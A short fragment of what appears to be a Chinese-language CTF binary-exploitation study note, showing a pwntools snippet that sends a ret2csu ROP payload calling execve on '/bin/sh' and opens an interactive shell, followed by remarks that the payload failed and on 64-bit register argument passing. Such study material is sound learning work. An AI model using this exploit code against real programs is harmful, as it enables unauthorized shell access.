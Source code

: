 ```python
payload2 = csu(0,1,execve_addr,bin_sh_addr,0,0,main_addr)
io.sendline(payload2)
log.success("=========== send payload2=========")

io.interactive()

```

以上Payload失败了..............



**wiki上的ret2libc的思路是32位的，使用堆栈传产，该程序为64位，使用寄存器传参，注意区别**



Q2：**新思路，通过csu第一次得到libc以后，后序其实可以不必使用csu，可以查找gadget，如果有合适的gadget就可以借鉴ret2libc来进行操作，不是使用csu(牛刀杀鸡)**

A2:如果避免上述csu实现所说的问题，使用野生的gadget，应该可以实现。

